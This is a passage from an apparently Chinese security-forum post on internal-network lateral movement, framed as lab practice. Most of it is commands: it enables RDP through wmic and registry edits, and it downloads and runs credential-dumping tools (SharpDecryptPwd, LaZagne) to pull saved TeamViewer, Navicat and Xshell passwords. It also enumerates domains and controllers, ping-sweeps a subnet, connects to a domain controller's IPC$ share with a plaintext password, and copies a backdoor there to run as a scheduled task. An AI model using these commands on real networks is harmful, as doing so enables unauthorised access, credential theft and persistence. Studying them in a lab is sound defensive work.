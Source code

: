 Settings”查看端口代理配置信息  
Reg query “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal
Server\WinStations\RDP-Tcp” /V PortNumber查看远程桌面端口号  
以下命令是开启3389端口 (windows server 2003后)  
wmic /namespace:\root\cimv2\terminalservices path win32_terminalservicesetting
where (__CLASS != "") call setallowtsconnections 1  
wmic /namespace:\root\cimv2\terminalservices path win32_tsgeneralsetting where
(TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1  
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v
fSingleSessionPerUser /t REG_DWORD /d 0 /f  
net start TermService

##
[](https://bbs.pediy.com/thread-268289.htm#1.2%E6%94%B6%E9%9B%86%E7%AC%AC%E4%B8%89%E6%96%B9%E7%99%BB%E5%BD%95%E5%87%AD%E8%AF%81%E6%94%B6%E9%9B%86%EF%BC%9A)1.2收集第三方登录凭证收集：

SharpDecryptPwd：  
https://github.com/uknowsec/SharpDecryptPwd/raw/master/SharpDecryptPwd.exe  
TeamViewer :SharpDecryptPwd.exe -TeamViewer  
Navicat: SharpDecryptPwd.exe -NavicatCrypto  
Xshell：SharpDecryptPwd.exe -Xmangager -p SessionPath -s username+sid(whoami
/user)  
laZagne ：  
https://github.com/ethicalhackeragnidhra/LaZagne/archive/2.3.1.zip  
使用方法：laZagne.exe all



我们用上述命令简单收集计算机基本信息：  
Ipconfig /all 根据DNS后缀判断是否有域  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_48W2TXKXQJCT4CN.png)  
Net view /domain 判断是否存在域  
确定域控的ip地址：  
net time /domain  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_6B5EA87AEUT9Y2P.png)  
然后通过nslookup或ping确定其域控ip:  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_DSCH2B985WR3PAZ.png)  
确定当域内存活主机：  
for /L %I in (1,1,256) DO @ping -w 1 -l 1 192.168.202.%I | findstr “TTL=”

#
[](https://bbs.pediy.com/thread-268289.htm#%E4%BA%8C%E3%80%81%E4%BD%BF%E7%94%A8%E6%98%8E%E6%96%87%E4%BC%A0%E9%80%92%E8%BF%9B%E8%A1%8C%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8)二、使用明文传递进行内网横向移动

## [](https://bbs.pediy.com/thread-268289.htm)2.1Windows server 2008 使用自带的at命令

使用明文密码登录到域控，需要135端口开启：  
Net use \192.168.202.148\ipc$ password /user:test\administrator  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_HWZ7YBG9YGXJXBR.png)  
把后门复制到域控c盘，at新建定时作业：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_GRBP4GZW2BCDEZ6.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_AS3YHTA89EWZWGV.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_3HA2WMG2VDFWY82.png)
